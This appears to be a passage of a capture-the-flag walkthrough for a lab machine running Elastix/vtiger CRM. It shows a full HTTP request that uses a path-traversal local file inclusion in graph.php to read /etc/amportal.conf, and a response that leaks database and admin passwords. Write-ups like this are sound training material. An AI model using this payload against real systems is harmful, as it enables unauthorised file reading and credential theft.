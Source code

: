 ## User
### Method 1 - php/webapps/37637.pl and Password Reuse
Using 37637.pl, we can simply open burp and perform the following request:
```
GET /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action HTTP/1.1
Host: 10.10.10.7
Cookie: elastixSession=3oqenhc7bvtjcid4iuqpag7341; PHPSESSID=3bb02vcbjco3ntj9odbumor1o4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Cache-Control: max-age=0
Te: trailers
Connection: close
```
as a response we can see that we can access a local system file, exploiting a LFI, in fact as a response, we do get: (TL;DR most of the commented line has been removed)
```
HTTP/1.1 200 OK
Date: Mon, 01 Nov 2021 19:23:56 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 13779

AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE

AMPBIN=/var/lib/asterisk/bin
AMPSBIN=/usr/local/sbin

AMPWEBROOT=/var/www/html
AMPCGIBIN=/var/www/cgi-bin

FOPWEBROOT=/var/www/html/panel
#FOPPASSWORD=passw0rd
FOPPASSWORD=jEhdIekWmdjE

ARI_ADMIN_USERNAME=admin

ARI_ADMIN_PASSWORD=jEhdIekWmdjE

AUTHTYPE=database

AMPADMINLOGO=logo.png

AMPEXTENSIONS=extensions

ENABLECW=no
ZAP2DAHDICOMPAT=true
```